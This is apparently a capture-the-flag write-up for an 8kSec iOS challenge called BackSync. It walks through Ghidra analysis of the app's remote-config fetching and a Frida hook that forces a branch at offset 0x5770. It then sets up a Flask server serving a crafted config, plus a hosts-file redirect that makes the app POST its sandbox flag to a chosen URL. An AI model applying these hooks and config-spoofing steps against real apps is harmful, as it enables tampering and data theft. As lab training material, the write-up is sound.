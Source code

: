 ```yaml
---
title: BackSync - 8kSec
date: 2025-9-1 00:00:00 +/-TTTT
categories: [8kSec]
tags: [8kSec, writeup, mobile penetration testing, ios]     # TAG names should always be lowercase
---
```


<br />

**Description:**

**BackSync** appears to be a straightforward profile viewer with minimal functionality. However, beneath its unassuming interface lies a background process that periodically fetches remote configurations. These configurations can influence the app’s behavior in unexpected ways.

<br />

**Objective:**

- Investigate the app’s background activities and determine how to manipulate its behavior to your advantage.
- Analyze the app to understand its configuration fetching mechanism. Craft a remote configuration that causes the app to perform an unintended action, leading to the retrieval of the hidden flag **remotely**.

<br />

**Restrictions:**

The flag resides in a local file within the app’s sandbox.

<br />

**Explore the application**

When the app launches, it displays a screen titled **“My Profile”** with two buttons  **“Log In”** and **“My Profile”**, but neither of these buttons performs any action.

![](/assets/img/8ksec/BackSync /1.jpg)

<br />

I noticed that the app periodically sends HTTP GET requests to a domain that changes each time the app is launched. The domain name always starts with three varying characters followed by **"deletedoldstagingsite.com"**.

![](/assets/img/8ksec/BackSync /1.png)

<br />

**Reverse Engineering With Ghidra**

Each time I launch the app, I observed that two functions are executed:

- **`_$s8BackSync18writeFlagToSandboxyyF()`**
- **`_$s8BackSync29fetchRemoteConfigPeriodicallyyyF()`**

These functions run automatically on every app startup.

![](/assets/img/8ksec/BackSync /4.png)

<br />

The `writeFlagToSandbox()` function creates a file named **flag.txt** and saves it in the app’s **Documents** directory.

![](/assets/img/8ksec/BackSync /2.png)

<br />

![](/assets/img/8ksec/BackSync /3.png)

<br />

We can verify that the flag exists in the app’s **Documents** directory by connecting to the iPhone via SSH and inspecting that directory.

```
└─# objection -g com.8ksec.BackSync.W46SY5ZJ6Z explore  
Checking for a newer version of objection...
Using USB device `iOS Device`
Agent injected and responds ok!

     _   _         _   _
 ___| |_|_|___ ___| |_|_|___ ___
| . | . | | -_|  _|  _| | . |   |
|___|___| |___|___|_| |_|___|_|_|
      |___|(object)inject(ion) v1.11.0

     Runtime Mobile Exploration
        by: @leonjza from @sensepost

[tab] for command suggestions
com.8ksec.BackSync.W46SY5ZJ6Z on (iPhone: 16.0) [usb] # env

Name               Path
-----------------  --------------------------------------------------------------------------------------------
BundlePath         /private/var/containers/Bundle/Application/1F870E8C-2885-4AAC-AB2E-3290F1B6717B/BackSync.app
CachesDirectory    /var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Library/Caches
DocumentDirectory  /var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Documents
LibraryDirectory   /var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Library

```

<br />

```
iPhone:~ root# cd /var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Documents
iPhone:/var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Documents root# ls
flag.txt
iPhone:/var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Documents root# cat flag.txt 
FLAG{you_remotely_triggered_the_leak}                                                       
```

<br />

The `fetchRemoteConfig` function is responsible for sending the GET request to **deletedoldstagingsite.com**.

![](/assets/img/8ksec/BackSync /8.png)

<br />

The function located at offset **0x5370** parses JSON data from the HTTP response, converts it into a `[String: String]` dictionary, checks the fields **"mode"**, **"collect_logs"**, and **"target_url"**, and calls **`BackSync.sendFlag(to:)`** if all the required conditions are met.

<br />

![](/assets/img/8ksec/BackSync /9.png)

<br />

![](/assets/img/8ksec/BackSync /10.png)

<br />

At address **0x00005770**, the instruction

```assembly
tbnz w8, #0x0, LAB_000057a4
```

means **“Test Bit and Branch if Non-Zero.”** It checks bit **0** of the **w8** register.
 If that bit is **1**, the program **branches to `LAB_000057a4`**; otherwise, it continues to the next instruction.

The next instruction at **0x00005774**,

```assembly
b LAB_0000587c
```

is an unconditional branch that jumps to **`LAB_0000587c`**, effectively skipping the `LAB_000057a4` branch if the bit test fails.

The label **`LAB_000057a4`** represents the **branch where the `sendFlagTo()` function is called**, so for execution to reach that function, **the w8 register must have its least significant bit (bit 0) set to 1**.

<br />

![](/assets/img/8ksec/BackSync /5.png)

<br />

A Frida script that forces the register **x8** (w8) to `1` so the instruction
 `tbnz w8, #0x0, LAB_000057a4`
 succeeds and execution jumps to `LAB_000057a4`,  the branch that calls `sendFlagTo()`.

```javascript
var offset = ptr('0x5770');
var t_module = 'BackSync.debug.dylib';
var base = Module.getBaseAddress(t_module);
if (base === null) {
    throw new Error('Module not found: ' + t_module);
}

var target = base.add(offset);

Interceptor.attach(target, {
    onEnter: function (args) {
    	this.context.x8 = ptr(0x1);
    }
});
```

<br />

This Python script creates a simple **Flask web server** that provides a mock **remote configuration API endpoint**. When the server is running, it listens on port **80** for incoming HTTP GET requests. The route **`/remoteConfig`** is defined to return a JSON response that simulates the kind of configuration data the app’s `fetchRemoteConfig` function expects. Specifically, it sends a JSON object containing three keys: `"mode"` (set to `"test"`), `"collect_logs"` (set to `"true"` to enable log collection), and `"target_url"` (set to `"http://google.com"`, representing the destination URL for the flag). When a client, such as the app, makes a GET request to `/remoteConfig`, the server responds with this JSON payload. 

```python
from flask import Flask, jsonify

app = Flask(__name__)

@app.route('/remoteConfig', methods=['GET'])
def get_remote_config():
    response = {
        "mode": "test",
        "collect_logs": "true",
        "target_url":"http://google.com"
    }
    return jsonify(response)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80, debug=True)
```

<br />

run the python server

```
python3 main.py
```

<br />

Start the app with frida, identify the domain it requests (the one that looks like `<XXX>deletedoldstagingsite.com`), and add a hosts entry mapping that domain to localhost:

```
127.0.0.1  <XXX>deletedoldstagingsite.com
```

<br />

The app sends a request to `<XXX>deletedoldstagingsite.com`, receives the expected JSON response, and then sends a POST to the URL specified in `"target_url"`, with the flag included in the request body.

![](/assets/img/8ksec/BackSync /6.png)

<br />

![](/assets/img/8ksec/BackSync /7.png)

<br />

**Flag:** FLAG{you_remotely_triggered_the_leak}

